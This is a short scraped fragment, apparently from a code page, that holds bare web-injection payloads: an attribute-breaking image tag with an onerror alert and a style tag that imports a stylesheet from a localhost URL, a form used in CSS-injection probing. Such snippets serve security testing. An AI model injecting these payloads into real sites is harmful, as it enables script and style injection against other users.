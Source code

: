 “><img only src=1 onerror=alert('HERER')>
"><style>@import url(http://localhost:3001/start)</style>

“> "> 
